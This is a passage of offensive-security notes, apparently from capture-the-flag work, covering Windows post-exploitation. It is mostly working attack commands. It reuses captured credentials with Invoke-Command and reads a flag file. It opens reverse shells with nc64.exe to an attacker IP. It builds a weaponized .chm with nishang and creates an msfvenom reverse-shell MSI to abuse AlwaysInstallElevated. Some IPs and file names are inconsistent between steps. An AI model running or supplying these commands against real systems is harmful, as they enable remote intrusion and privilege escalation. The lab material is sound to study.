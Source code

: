 $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```
```
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
```
```
Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
```
- should return name of new user creds if creds are valid and if user is in remote users group
```
Invoke-Command -ScriptBlock { type \users\chris\desktop\user.txt } -Credential $cred -Computer localhost
```
- get flag
```
Invoke-Command -ScriptBlock { \\10.10.14.142\share\nc64.exe -e cmd 10.10.14.142 80 } -Credential $cred -Computer localhost
```
- turn into shell, catch with `rlwrap nc -lvnp 443`

Weaponize .chm files with nishang
- download Out-CHM.ps1 from https://github.com/samratashok/nishang/releases/tag/v0.7.6 under \client\ directory
```
. .\Out-CHM.ps1
```
- run on personal windows machine
```
Out-CHM -Payload "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.142 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```
- also run on personal windows machine, creates doc.chm
```
copy \\10.10.14.142\share\doc.chm .
```
- transfer doc.shm to target machine (in this example with smbserver)
```
copy \\10.10.14.142\share\nc64.exe \windows\system32\spool\drivers\color\
```
- also transfer nc64.exe to that directory
- after a minute or so, will catch shell from `rlwrap nc -lvnp 443`

#### winpeas
`.\winPEASx64.exe`
#### AlwaysInstallElevated
*Allows current user to install msi's as Administrator*
- will see on winpeas:
	- AlwaysInstallElevated set to 1 in HKLM and HKCU set to 1
	- Also get the AutoLogon credentials for current user
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.210.90.250 LPORT=6969 -f msi > privesc.msi
```
- create msi rev shell
```
python -m http.server 80
```
- host with python server
```
wget http://10.21.90.250/privesc.msi -o privesc.msi
```
- transfer to machine
```
rlwrap -cAr nc -lvnp 6969
```
- setup listener
```
runas /user:dev-datasci-lowpriv "msiexec /quiet /qn /i C:\Users\dev-datasci-lowpriv\Desktop\malicious.msi"
```
```